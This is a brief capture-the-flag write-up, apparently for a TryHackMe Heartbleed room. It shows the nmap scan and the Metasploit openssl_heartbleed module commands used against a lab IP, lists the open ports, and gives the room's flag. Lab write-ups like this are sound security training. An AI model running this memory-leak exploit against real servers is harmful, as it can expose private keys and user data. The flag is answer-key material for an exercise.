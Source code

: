 # Heartbleed - Easy

```shell
nmap -T4 -A -v 34.245.72.138

msfconsole -q

search heartbleed

use auxiliary/scanner/ssl/openssl_heartbleed

show options

set RHOSTS 34.245.72.138

show advanced options

set VERBOSE true

run
#this gives us flag
```

* Heartbleed is a bug due to implementation in ```OpenSSL``` library from versions 1.0.1 to 1.0.1f; this allows a user to access memory on the server.

* Open ports & services:

  * 22 - ssh - OpenSSH 7.4
  * 111 - rpcbind - RPC
  * 443 - ssl/http - nginx 1.15.7

* The webpage does not contain anything interesting.

* As it is given that the exploit is related to the Heartbleed bug, we can search for it on Metasploit.

* We can use the ```openssl_heartbleed``` module with verbosity, and run it to get flag.

```markdown
1. What is the flag? - THM{sSl-Is-BaD}
```
